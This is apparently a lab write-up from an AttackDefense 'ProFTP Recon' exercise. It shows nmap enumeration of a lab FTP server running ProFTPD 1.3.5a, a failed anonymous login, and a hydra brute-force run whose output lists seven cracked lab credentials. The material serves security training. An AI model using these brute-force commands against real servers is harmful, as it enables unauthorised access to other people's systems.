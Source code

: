 #### Lab 1

> 🔬 [ProFTP Recon: Basics](https://attackdefense.com/challengedetails?cid=518)
>
> * Target IP: `192.217.238.3`
> * Enumeration of [ProFTP](http://www.proftpd.org/) server

```bash
ip -br -c a
	eth1@if170718   UP   192.217.238.2/24
```

* Target IP is `192.217.238.3`

```bash
nmap 192.217.238.3
	21/tcp open  ftp
```

```bash
nmap -p21 -sV -O 192.217.238.3
```

```bash
21/tcp open  ftp     ProFTPD 1.3.5a
[...]
Service Info: OS: Unix
```

> 📌 FTP server version is `ProFTPD 1.3.5a`.

### FTP Anonymous Login

#### [ftp](https://linux.die.net/man/1/ftp) - Linux Man Page

* Try `anonymous:anonymous` login

```bash
ftp 192.217.238.3
# anonymous login failed
```

* Use `hydra` with some users/passwords word lists to check if any credentials work with the ftp server

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.217.238.3 -t 4 ftp
```

```bash
[DATA] max 16 tasks per 1 server, overall 16 tasks, 7063 login tries (l:7/p:1009), ~442 tries per task
[DATA] attacking ftp://192.217.238.3:21/
[21][ftp] host: 192.217.238.3   login: sysadmin   password: 654321
[21][ftp] host: 192.217.238.3   login: rooty   password: qwerty
[21][ftp] host: 192.217.238.3   login: demo   password: butterfly
[21][ftp] host: 192.217.238.3   login: auditor   password: chocolate
[21][ftp] host: 192.217.238.3   login: anon   password: purple
[21][ftp] host: 192.217.238.3   login: administrator   password: tweety
[21][ftp] host: 192.217.238.3   login: diag   password: tigger
1 of 1 target successfully completed, 7 valid passwords found
```
